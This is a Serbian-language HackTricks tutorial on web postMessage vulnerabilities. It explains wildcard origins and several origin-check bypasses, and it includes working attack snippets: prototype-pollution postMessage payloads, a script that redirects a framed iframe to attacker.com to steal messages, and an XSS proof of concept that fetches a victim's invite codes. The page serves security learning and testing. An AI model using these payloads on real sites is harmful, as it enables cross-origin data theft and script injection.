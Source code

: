 # PostMessage ranjivosti

## PostMessage ranjivosti

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Pošalji **PostMessage**

**PostMessage** koristi sledeću funkciju za slanje poruke:
```bash
targetWindow.postMessage(message, targetOrigin, [transfer]);

# postMessage to current page
window.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe with id "idframe"
<iframe id="idframe" src="http://victim.com/"></iframe>
document.getElementById('idframe').contentWindow.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe via onload
<iframe src="https://victim.com/" onload="this.contentWindow.postMessage('<script>print()</script>','*')">

# postMessage to popup
win = open('URL', 'hack', 'width=800,height=300,top=500');
win.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an URL
window.postMessage('{"__proto__":{"isAdmin":True}}', 'https://company.com')

# postMessage to iframe inside popup
win = open('URL-with-iframe-inside', 'hack', 'width=800,height=300,top=500');
## loop until win.length == 1 (until the iframe is loaded)
win[0].postMessage('{"__proto__":{"isAdmin":True}}', '*')
```
Napomena da **targetOrigin** može biti '\*' ili URL kao što je _https://company.com._\
U **drugom scenariju**, **poruka se može poslati samo na tu domenu** (čak i ako je poreklo objekta prozora drugačije).\
Ako se koristi **zvezdica**, **poruke mogu biti poslate na bilo koju domenu**, i biće poslate na poreklo objekta prozora.

### Napad na iframe i zvezdicu u **targetOrigin**

Kao što je objašnjeno u [**ovom izveštaju**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/), ako pronađete stranicu koja može biti **iframed** (bez zaštite `X-Frame-Header`) i koja šalje **osetljive** poruke putem **postMessage** koristeći **zvezdicu** (\*), možete **izmeniti** **poreklo** **iframe-a** i **procuriti** **osetljivu** poruku na domen koji kontrolišete.\
Napomena da ako se stranica može iframovati, ali je **targetOrigin postavljen na URL, a ne na zvezdicu**, ovaj **tri**k neće funkcionisati.
```markup
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
setTimeout(exp, 6000); //Wait 6s

//Try to change the origin of the iframe each 100ms
function exp(){
setInterval(function(){
window.frames[0].frame[0][2].location="https://attacker.com/exploit.html";
}, 100);
}
</script>
```
## Iskorišćavanje funkcije addEventListener

**`addEventListener`** je funkcija koju JS koristi za deklarisanje funkcije koja očekuje **`postMessages`**.\
Koristiće se sličan kod kao što je prikazan ispod:
```javascript
window.addEventListener("message", (event) => {
if (event.origin !== "http://example.org:8080")
return;

// ...
}, false);
```
U ovom slučaju, **prva stvar** koju kod radi je **provera porekla**. Ovo je izuzetno **važno**, posebno ako stranica treba da izvrši **nešto osetljivo** sa primljenim informacijama (kao što je promena lozinke). **Ako ne proverava poreklo, napadači mogu naterati žrtve da šalju proizvoljne podatke na ove endpointe** i promeniti lozinke žrtava (u ovom primeru).

### Enumeracija

Da biste **pronašli slušače događaja** na trenutnoj stranici, možete:

* **Pretražite** JS kod za `window.addEventListener` i `$(window).on` (_JQuery verzija_)
* **Izvršite** u konzoli alata za razvoj: `getEventListeners(window)`

![](<../../.gitbook/assets/image (618) (1) (1).png>)

* **Idite na** _Elements --> Event Listeners_ u alatima za razvoj pregledača

![](<../../.gitbook/assets/image (617).png>)

* Koristite **dodatak za pregledač** kao što je [**https://github.com/benso-io/posta**](https://github.com/benso-io/posta) ili [https://github.com/fransr/postMessage-tracker](https://github.com/fransr/postMessage-tracker). Ovi dodaci za pregledač će **presresti sve poruke** i prikazati ih vama.

### Bypass provere porekla

- Atribut **`event.isTrusted`** se smatra sigurnim jer vraća `True` samo za događaje koji su generisani od strane stvarnih korisničkih akcija. Iako je izazovno zaobići ga ako je pravilno implementiran, njegov značaj u sigurnosnim proverama je primetan.

- Upotreba **`indexOf()`** za proveru porekla u PostMessage događajima može biti podložna zaobilaženju. Primer koji ilustruje ovu ranjivost je:

```javascript
("https://app-sj17.marketo.com").indexOf("https://app-sj17.ma")
```

- Metoda **`search()`** iz `String.prototype.search()` je namenjena za regularne izraze, a ne za stringove. Prosleđivanje bilo čega osim regularnog izraza dovodi do implicitne konverzije u regex, čime se metoda potencijalno čini nesigurnom. To je zato što u regex-u tačka (.) deluje kao džoker, omogućavajući zaobilaženje provere sa posebno oblikovanim domenima. Na primer:

```javascript
"https://www.safedomain.com".search("www.s.fedomain.com")
```

- Funkcija **`match()`**, slično kao `search()`, obrađuje regex. Ako je regex nepravilno struktuiran, može biti podložan zaobilaženju.

- Funkcija **`escapeHtml`** je namenjena za sanitizaciju unosa putem izbegavanja karaktera. Međutim, ona ne stvara novi objekat sa izbegnutim karakterima, već prebrisuje postojeće osobine objekta. Ovo ponašanje može biti iskorišćeno. Konkretno, ako se objekat može manipulisati tako da njegova kontrolisana osobina ne priznaje `hasOwnProperty`, `escapeHtml` neće raditi kako se očekuje. Ovo je prikazano u sledećim primerima:

- Očekivani neuspeh:
```javascript
result = u({
message: "'\"<b>\\"
});
result.message // "&#39;&quot;&lt;b&gt;\"
```

- Zaobilaženje izbegavanja:
```javascript
result = u(new Error("'\"<b>\\"));
result.message; // "'"<b>\"
```

U kontekstu ove ranjivosti, objekat `File` je posebno podložan iskorišćavanju zbog svoje samo-čitajuće osobine `name`. Ova osobina, kada se koristi u šablonima, nije sanitizovana funkcijom `escapeHtml`, što može dovesti do potencijalnih sigurnosnih rizika.

- Svojstvo `document.domain` u JavaScript-u može biti postavljeno od strane skripte kako bi se skratila domena, što omogućava opušteniju primenu politike istog porekla unutar iste nadređene domene.

### Bypass e.origin == window.origin

Prilikom ugrađivanja veb stranice unutar **sandbox iframe-a** koristeći %%%<iframe sandbox="allow-scripts" src="https://example.com/iframe.php">%%%, važno je razumeti da će poreklo iframe-a biti postavljeno na `null`. Ovo je posebno važno kada se radi sa **sandbox atributima** i njihovim implikacijama na sigurnost i funkcionalnost.

Navođenjem **`allow-popups`** u sandbox atributu, svaki popup prozor otvoren iz iframe-a nasleđuje sandbox ograničenja svojih roditelja. To znači da osim ako se takođe ne uključi atribut **`allow-popups-to-escape-sandbox`**, poreklo popup prozora takođe biva postavljeno na `null`, usklađujući se sa poreklom iframe-a.

Kao rezultat toga, kada se otvori popup u ovim uslovima i poruka se pošalje iz iframe-a u popup koristeći **`postMessage`**, i pošiljalac i primalac imaju postavljeno poreklo na `null`. Ova situacija dovodi do scenarija u kojem se **`e.origin == window.origin`** procenjuje kao tačno (`null == null`), jer i iframe i popup dele istu vrednost porekla `null`.

Za više informacija **pročitajte**:

{% content-ref url="bypassing-sop-with-iframes-1.md" %}
[bypassing-sop-with-iframes-1.md](bypassing-sop-with-iframes-1.md)
{% endcontent-ref %}

### Zaobilaženje e.source

Moguće je proveriti da li je poruka poslata sa istog prozora u kojem skripta sluša (posebno zanimljivo za **Content Scripts iz pregledačkih dodataka** kako bi se proverilo da li je poruka poslata sa iste stranice):
```javascript
// If it’s not, return immediately.
if( received_message.source !== window ) {
return;
}
```
Možete prisiliti **`e.source`** poruke da bude null tako što ćete kreirati **iframe** koji **šalje** **postMessage** i odmah se **briše**.

Za više informacija **pročitajte:**

{% content-ref url="bypassing-sop-with-iframes-2.md" %}
[bypassing-sop-with-iframes-2.md](bypassing-sop-with-iframes-2.md)
{% endcontent-ref %}

### Bypassovanje X-Frame-Header-a

Da biste izveli ove napade, idealno bi bilo da **ubacite veb stranicu žrtve** unutar `iframe`-a. Međutim, neki zaglavlji poput `X-Frame-Header` mogu **sprečiti** takvo **ponašanje**.\
U tim scenarijima i dalje možete koristiti manje prikriven napad. Možete otvoriti novi tab ka ranjivoj veb aplikaciji i komunicirati s njom:
```markup
<script>
var w=window.open("<url>")
setTimeout(function(){w.postMessage('text here','*');}, 2000);
</script>
```
### Krađa poruke poslate detetu blokiranjem glavne stranice

Na sledećoj stranici možete videti kako možete ukrasti **osetljive podatke poslate putem postmessage** do deteta u iframe-u **blokiranjem** glavne stranice pre slanja podataka i zloupotrebom **XSS-a u detetu** da bi **procurili podaci** pre nego što budu primljeni:

{% content-ref url="blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

### Krađa poruke modifikovanjem lokacije iframe-a

Ako možete da uključite veb stranicu u iframe bez X-Frame-Header-a koja sadrži drugi iframe, možete **promeniti lokaciju tog detetovog iframe-a**, tako da ako prima **postmessage** poslat koristeći **zvezdicu**, napadač može **promeniti** poreklo tog iframe-a na stranicu **kojom on upravlja** i **ukrasti** poruku:

{% content-ref url="steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

### postMessage do Prototype Pollution i/ili XSS

U scenarijima gde se podaci poslati putem `postMessage` izvršavaju pomoću JS-a, možete **ubaciti** stranicu u **iframe** i **iskoristiti** **prototype pollution/XSS** slanjem eksploatacije putem `postMessage`.

Par **veoma dobro objašnjenih XSS-a putem `postMessage`** može se naći na [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)

Primer eksploatacije za zloupotrebu **Prototype Pollution, a zatim XSS-a** putem `postMessage` do `iframe-a`:
```html
<html>
<body>
<iframe id="idframe" src="http://127.0.0.1:21501/snippets/demo-3/embed"></iframe>
<script>
function get_code() {
document.getElementById('iframe_victim').contentWindow.postMessage('{"__proto__":{"editedbymod":{"username":"<img src=x onerror=\\\"fetch(\'http://127.0.0.1:21501/api/invitecodes\', {credentials: \'same-origin\'}).then(response => response.json()).then(data => {alert(data[\'result\'][0][\'code\']);})\\\" />"}}}','*');
document.getElementById('iframe_victim').contentWindow.postMessage(JSON.stringify("refresh"), '*');
}

setTimeout(get_code, 2000);
</script>
</body>
</html>
```
Za **više informacija**:

* Link do stranice o [**zagađenju prototipa**](../deserialization/nodejs-proto-prototype-pollution/)
* Link do stranice o [**XSS**](../xss-cross-site-scripting/)
* Link do stranice o [**zagađenju prototipa na klijentskoj strani do XSS-a**](../deserialization/nodejs-proto-prototype-pollution/#client-side-prototype-pollution-to-xss)

## Reference

* [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)
* [https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd](https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd)
* Za vežbanje: [https://github.com/yavolo/eventlistener-xss-recon](https://github.com/yavolo/eventlistener-xss-recon)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
